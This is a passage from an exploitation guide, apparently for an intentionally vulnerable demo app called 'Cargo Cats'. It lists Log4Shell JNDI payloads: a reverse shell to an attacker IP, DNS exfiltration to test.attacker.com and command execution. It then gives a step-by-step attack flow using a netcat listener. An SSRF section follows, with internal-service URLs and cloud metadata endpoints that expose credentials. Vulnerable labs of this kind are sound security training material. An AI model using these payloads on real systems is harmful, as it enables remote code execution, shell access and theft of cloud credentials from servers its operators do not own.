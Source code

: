 3. **JNDI-Exploit-Kit Payloads:**

   **Reverse Shell (Replace with your IP and port):**
   ```
   ${jndi:ldap://192.168.64.1:1389/serial/CommonsCollections2/java_reverse_shell/192.168.64.1:2020}
   ```

   **Sleep Test (5 second delay to confirm vulnerability):**
   ```
   ${jndi:ldap://192.168.64.1:1389/serial/CommonsCollections2/sleep/5000}
   ```

   **Additional Payload Options:**
   - **DNS Exfiltration:** `${jndi:ldap://192.168.64.1:1389/serial/CommonsCollections2/dns_query/test.attacker.com}`
   - **Command Execution:** `${jndi:ldap://192.168.64.1:1389/serial/CommonsCollections2/command/whoami}`

4. **Complete Attack Flow:**
   - Start JNDI-Exploit-Kit server on attacker machine
   - Set up netcat listener for reverse shell: `nc -lvp 2020`
   - Navigate to Cargo Cats login page
   - Enter reverse shell payload as username
   - Submit login form with any password
   - Receive reverse shell connection from compromised server

**Impact:**
- Complete server compromise with remote code execution
- Access to internal network and services
- Data exfiltration and system manipulation
- Potential lateral movement within infrastructure

---

### 4. Server-Side Request Forgery (SSRF) - Webhook Service

**Vulnerability Details:**
The webhook functionality allows authenticated users to make the server send HTTP requests to arbitrary URLs, enabling attacks against internal services and infrastructure.

**Exploitation via Frontgate Interface:**

1. **Access Webhook Interface:**
   - Login to the application
   - Navigate to the Webhooks page (`/webhooks`)
   - Use the webhook notification testing features

2. **Internal Service Discovery:**
   - **Target Internal APIs:** `http://localhost:8080/actuator/health`
   - **Database Access:** `http://localhost:3306` (check for MySQL admin interfaces)
   - **Admin Panels:** `http://192.168.1.100/admin`
   - **Docker APIs:** `http://unix:/var/run/docker.sock/containers/json`

3. **Cloud Metadata Exploitation:**
   - **AWS:** `http://169.254.169.254/latest/meta-data/iam/security-credentials/`
   - **Google Cloud:** `http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token`
   - **Azure:** `http://169.254.169.254/metadata/instance/compute?api-version=2021-02-01`
